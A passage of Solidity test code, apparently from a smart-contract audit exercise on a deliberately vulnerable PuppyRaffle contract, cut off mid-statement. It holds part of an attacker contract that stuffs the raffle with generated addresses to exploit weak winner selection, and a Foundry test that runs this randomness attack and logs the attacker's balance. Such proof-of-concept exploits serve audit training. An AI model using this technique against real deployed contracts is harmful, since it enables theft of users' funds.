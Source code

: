 ```javascript 
        uint256 toLoop = numberOfPlayersToAdd - playersLength;

        address[] memory playersToAdd = new address[](toLoop);
        playersToAdd[0] = address(this);
        for (uint256 i = 1; i < toLoop; ++i) {
            playersToAdd[i] = address(i + 100);
        }

        uint256 valueToSend = 1e18 * toLoop;

        puppyRaffle.enterRaffle{value: valueToSend}(playersToAdd);
        puppyRaffle.selectWinner();
    }

    receive() external payable {}

    function onERC721Received(
        address operator,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) public returns (bytes4) {
        return this.onERC721Received.selector;
    }
}

contract PuppyRaffleTest is StdInvariant, Test {
    PuppyRaffle puppyRaffle;
    BreakRandomnessFunction breakRandomnessFunction;
    uint256 entranceFee = 1e18;
    address playerOne = address(1);
    address playerTwo = address(2);
    address playerThree = address(3);
    address playerFour = address(4);
    address feeAddress = address(99);
    uint256 duration = 1 days;

    function setUp() public {
        puppyRaffle = new PuppyRaffle(entranceFee, feeAddress, duration);
        breakRandomnessFunction = new BreakRandomnessFunction(puppyRaffle);
    }

    modifier playersEntered() {
        address[] memory players = new address[](4);
        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);
        _;
    }

    function testRandomnessAttack() public playersEntered {
        vm.deal(address(breakRandomnessFunction), 1000 ether);
        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);
        console.log(
            "Attacker balance before: ",
            address(breakRandomnessFunction).balance
        );
        breakRandomnessFunction.attackRandomness();
        console.log(
            "Attacker balance after: ",
```